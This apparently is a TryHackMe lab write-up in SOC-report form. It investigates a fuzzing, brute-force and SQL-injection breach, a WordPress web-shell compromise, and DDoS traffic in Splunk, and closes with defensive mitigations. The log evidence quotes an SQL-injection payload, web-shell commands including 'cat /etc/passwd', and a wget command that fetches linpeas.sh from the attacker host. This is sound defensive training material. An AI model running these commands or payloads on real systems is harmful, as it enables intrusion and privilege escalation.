

# Web Security Monitoring Module: TryHackMe

# 🔍 SOC Incident Investigation Report: Web Security Monitoring

**Author:** Danish

**Role:** SOC Analyst

**Focus Area:** Web Application Security Monitoring, Log Analysis, Network Forensics & SIEM Triage

**Platform / Environment:** TryHackMe – Web Security Monitoring Lab

## 📌 Executive Summary

This report documents three distinct security incident investigations conducted on web application infrastructures. The analysis combines **raw log analysis (Apache/Nginx access logs)**, **deep packet inspection (Wireshark PCAP analysis)**, and **SIEM log aggregation (Splunk)** to reconstruct attack chains, recover compromised credentials, detect web shell persistence, and analyze distributed denial-of-service (DDoS) traffic patterns.

## 📁 Investigation 1: TryBankMe Data Breach Investigation

### 1. Incident Overview

Management at **TryBankMe**, a web banking platform, reported a data breach involving leaked customer records. The objective was to analyze web access logs (`access.log`) and full packet captures (`traffic.pcap`) to identify the initial entry vector, recover compromised credentials, and verify data exfiltration.

### 2. Phase 1: Access Log Analysis (`access.log`)

Reviewing `/var/log/access.log` revealed a structured three-stage attack pipeline:

1. **Directory & Endpoint Fuzzing:**
    - **Attacker IP:** `192.168.1.10`
    - **User-Agent:** `FFUF v2.1.0`
    - **Observation:** The attacker initiated automated directory fuzzing to map out administrative endpoints, successfully discovering `/login.php` (HTTP 200).
        
        
        
2. **Authentication Brute-Forcing:**
    - **Tool Used:** `Hydra`
    - **User-Agent:** `Mozilla/5.0 (Hydra)`
    - **Target:** `POST /login.php`
    - **Observation:** Rapid authentication attempts yielded multiple `HTTP 200 (403)` responses until a successful login returned an `HTTP 302 Found` redirect to `/account`.
3. **Automated SQL Injection (SQLi):**
    - **Tool Used:** `sqlmap/stable`
    - **Target Endpoint:** `/account/changeusername.php`
    - **Payload Identified:** `?q=%2527+OR+%271%27%3D%271` (`%' OR '1'='1`)
    
    
    

### 3. Phase 2: Network Traffic Analysis (`traffic.pcap`)

To confirm what credentials were used and what data was extracted, the packet capture `traffic.pcap` was analyzed using Wireshark.


#### **Credential Recovery:**

Applying the display filter `http.response.code == 302` isolated the successful authentication POST request (Stream 32). Following the TCP stream revealed cleartext admin credentials:

- **Username:** `admin`
- **Password:** `astrongpassword123`
    
    
    

#### **Database Exfiltration Verification:**

Filtering for HTTP GET traffic directed at `/account/changeusername.php` (Stream 44) confirmed the execution of the UNION-based SQL injection. The backend database response rendered dumped user table contents directly on the page:

```
DEBUG: SQL Query: SELECT id, username, email FROM users WHERE username LIKE '%' OR '1'='1'
1 | alice | alice@example.com
2 | bob | bob@example.com
3 | admin | admin@example.com
4 | flag | THM{dumped_the_db}
```


### 4. Indicators of Compromise (IoCs) – Investigation 1

| **Indicator** | **Type** | **Value / Description** |
| --- | --- | --- |
| **Attacker IP** | IPv4 | `192.168.1.10` |
| **User-Agents** | User-Agent | `FFUF v2.1.0`, `Mozilla/5.0 (Hydra)`, `sqlmap/stable` |
| **Compromised Account** | Credentials | `admin` : `astrongpassword123` |
| **Vulnerable Endpoint** | URI | `/account/changeusername.php?q=` |
| **Exfiltrated Flag** | Token | `THM{dumped_the_db}` |

## 📁 Investigation 2: WordPress Compromise & Web Shell Persistence

### 1. Incident Overview

A WordPress web application exhibited signs of unauthorized administrative activity. Apache access logs (`/var/log/apache2/access.log`) were analyzed to determine the attack source, identified directory discovery, web shell placement, and post-exploitation commands.


### 2. Log Analysis Timeline

1. **Reconnaissance & Fuzzing:**
    - **Attacker IP:** `203.0.113.66`
    - **Custom User-Agent:** `ashadyagent/1.1`
    - **Action:** Brute-forcing directory endpoints (`/dev`, `/wp-admin`, `/themes`, `/config`), returning HTTP 404 responses until discovering `/wordpress` (HTTP 200).
        
        
        
2. **Web Shell Upload:**
    - **Upload Mechanism:** `POST /wordpress/wp-content/uploads/upload_form.php?file=shadyshell.php`
    - **Status:** HTTP 200 (Upload successful)
    - **Web Shell Path:** `/wordpress/wp-content/uploads/shadyshell.php`
3. **Remote Code Execution (RCE):**
    
    The attacker leveraged HTTP GET parameters (`?cmd=`) on `shadyshell.php` using `curl/8.14.1` to execute host reconnaissance:
    
    - `whoami`
    - `id`
    - `uname -a`
    - `ls -la /home`
    - `cat /etc/passwd`
4. **Privilege Escalation Staging:**
    - **Command Executed:** `wget http://203.0.113.66:8000/linpeas.sh`
    - **Objective:** Staging the Linux privilege escalation audit script (`linpeas.sh`) on the target server.
        
        
        

### 3. Indicators of Compromise (IoCs) – Investigation 2

| **Indicator** | **Type** | **Value / Description** |
| --- | --- | --- |
| **Attacker IP** | IPv4 | `203.0.113.66` |
| **User-Agents** | User-Agent | `ashadyagent/1.1`, `curl/8.14.1` |
| **Malicious File** | Web Shell | `shadyshell.php` |
| **Staged Malware** | File | `linpeas.sh` |
| **Upload Path** | Directory | `/wordpress/wp-content/uploads/` |

## 📁 Investigation 3: Web Application DoS & Botnet DDoS Analysis

### 1. Part 1: Single-Source Denial of Service (DoS)

Analyzing `/var/log/access.log` identified an ongoing Denial of Service attack against the authentication portal.

- **Attacker IP:** `203.12.23.195`
- **Target Endpoint:** `GET /login`
- **User-Agent:** `curl/7.88.1`
- **Impact:** The rapid flood of requests exhausted server workers, causing legitimate user IP addresses (`192.168.1.10`, `192.168.1.5`) requesting `/support` and `/products` to receive `HTTP 503 Service Unavailable` errors.
    
    
    

### 2. Part 2: Distributed Denial of Service (DDoS) in Splunk SIEM

To analyze a large-scale distributed attack, web access logs were ingested into Splunk SIEM (`[http://10.49.163.131:8000](http://10.49.163.131:8000)`, `index="main"`).

#### **Search & Reporting Queries & Findings:**

1. **Target Endpoint Identification:**
    - **Query:** `index="main" | top limit=10 uri`
    - **Finding:** `/search` was the primary targeted endpoint, accounting for **2,068 requests (81.804% of total volume)**.
        
        
        
2. **Top Attacking Client IP:**
    - **Query:** `index="main" uri="/search" | top limit=10 clientip`
    - **Finding:** `203.0.113.7` was the single highest requester to the `/search` endpoint.
        
        
        
3. **Botnet Infrastructure Scope:**
    - **Query:** `index="main" uri="/search" | stats dc(clientip)`
    - **Finding:** Exactly **60 unique IP addresses** comprised the botnet cluster targeting the platform.
4. **Attack User-Agent Profiling:**
    - **Query:** `index="main" uri="/search" | top limit=5 useragent`
    - **Finding:** `Java/1.8.0_181` was the predominant User-Agent used across the botnet node swarm.
        
        
        
5. **Peak Request Density:**
    - **Query:** `index="main" uri="/search" | timechart span=1s count | sort - count`
    - **Finding:** Peak attack density reached **207 requests per second**.
        
        
        

## 🛡️ Recommended Mitigation & Defensive Remediation

1. **Web Application Firewall (WAF) Rules:**
    - Implement automated rate-limiting on sensitive endpoints (`/login`, `/search`, `/changeusername.php`).
    - Block known automated security scanner signatures (`FFUF`, `Hydra`, `sqlmap`, `ashadyagent/1.1`).
2. **Input Sanitization & Secure Coding:**
    - Convert dynamic SQL queries to parameterized statements / prepared queries to eliminate SQL injection vulnerabilities.
3. **Directory & File Upload Security:**
    - Disable PHP execution within media/upload directories (`/wp-content/uploads/`) using Apache `.htaccess` (`php_flag engine off`) or Nginx configuration blocks.
4. **DDoS Protection & SIEM Alerting:**
    - Integrate Cloudflare / AWS Shield for edge rate-limiting and bot management.
    - Configure real-time Splunk alert triggers when request rates on high-cost endpoints exceed baseline thresholds (e.g., > 50 req/sec from a single subnet).
